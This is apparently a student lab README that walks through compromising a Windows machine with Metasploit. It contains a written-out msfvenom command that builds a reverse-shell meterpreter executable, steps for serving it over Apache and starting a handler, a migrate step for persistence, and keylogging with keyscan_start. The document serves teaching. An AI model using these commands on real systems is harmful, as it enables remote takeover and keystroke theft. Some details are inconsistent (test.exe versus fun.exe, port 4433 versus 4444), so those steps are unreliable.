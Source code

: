 # Compromising-windows-using-Metasploit
Compromising windows using Metasploit
# Metasploit
Compromising windows using Metasploit

# AIM:

To Compromise windows using Metasploit .

## DESIGN STEPS:

### Step 1:

Install kali linux either in partition or virtual box or in live mode

### Step 2:

Investigate on the various categories of tools as follows:

### Step 3:

Open terminal and try execute some kali linux commands

## EXECUTION STEPS AND ITS OUTPUT:

Find the attackers ip address using ifconfig
# OUTPUT
![Screenshot 2025-03-28 135513](https://github.com/user-attachments/assets/2e026f51-cd2b-4b9f-8dea-ff7f4547fce1)

Create a malicious executable file test.exe using msenom command msfvenom -p windows/meterpreter/reverse_tcp LHOST=192.168.85.128 LPORT=4433 -f exe -o test.exe
# OUTPUT
![Screenshot 2025-03-28 135743](https://github.com/user-attachments/assets/2d436f21-89b7-4bb1-b630-1cedadbda223)

Move the fun.exe into the apache /var/www/html folder
# OUTPUT
![Screenshot 2025-03-28 135850](https://github.com/user-attachments/assets/59be41ae-3e57-410c-aa17-6a8e8d431e63)

Start apache server sudo systemctl apache2 start
# OUTPUT
![Screenshot 2025-03-28 140117](https://github.com/user-attachments/assets/456d0ecc-334d-49cd-a18c-b1b6cd9c493e)

Check the status of apache2
# OUTPUT
![Screenshot 2025-03-28 140255](https://github.com/user-attachments/assets/add1a3dc-55c1-4879-b6ec-0320b1e36875)

Invoke msfconsole:
# OUTPUT
![Screenshot 2025-03-28 132126](https://github.com/user-attachments/assets/5a89d7e7-8fb8-4983-a001-0bcd4517ab4a)

Type help or a question mark "?" to see the list of all available commands you can use inside msfconsole.

Starting a command and control Server use multi/handler
# OUTPUT
![image](https://github.com/user-attachments/assets/b7439fff-0290-4bbd-8cf8-aeae1fadf767)

set PAYLOAD windows/meterpreter/reverse_tcp set LHOST 0.0.0.0 exploit
On the target Windows machine, open a Web browser and open this URL, replacing the IP address with the IP address of your Kali machine: http://192.168.85.128/test.exe The file "test.exe" downloads.
# OUTPUT
![Screenshot 2025-03-28 142806](https://github.com/user-attachments/assets/dec77e68-1d3d-4503-b47e-e40641f2a957)

Bypass any warning boxes, double-click the file, and allow it to run.
On kali give the command exploit
# OUTPUT
![image](https://github.com/user-attachments/assets/fd5589b8-2c79-45e0-8be4-34e127f73577)

To see a list of processes, at the meterpreter > prompt, execute this command: ps ⇒ can see the test.exe process running with pid 1156
# OUTPUT
![Screenshot 2025-03-28 143948](https://github.com/user-attachments/assets/5881e91d-5fad-42a6-b2bd-849f9065012b)
![image](https://github.com/user-attachments/assets/f77ca603-b0dd-436b-9eed-51793497e10e)

The Metasploit shell is running inside the "test.exe" process. If the user closes that process, or logs off, the connection will be lost. To become more persistent, we'll migrate to a process that will last longer. Let's migrate to the winlogon process. At the meterpreter > prompt, execute this command:
migrate -N explorer.exe at meterpreter > prompt, execute this command: netstat A list of network connections appears, including one to a remote port of 4444, as highlighted in the image below. Notice the "PID/Program name" value for this connection, which is redacted
# OUTPUT
![Screenshot 2025-03-28 144022](https://github.com/user-attachments/assets/fcbe5432-753f-451b-9ef2-1b3f6b2f84c8)

Post Exploitation The target is now owned. Following are meterpreter commands for key capturing in the target machine keyscan_start Begins capturing keys typed in the target. On the Windows target, open Notepad and type in some text, such as your name.
# OUTPUT
![image](https://github.com/user-attachments/assets/29c656cd-4f7f-4b8e-84a3-707d6ba7e3d2)
![Screenshot 2025-04-07 113052](https://github.com/user-attachments/assets/512d8015-e6df-443d-866b-5bdebb5f3949)

## RESULT:
The Metasploit framework is  used to compromise windows and is examined successfully.

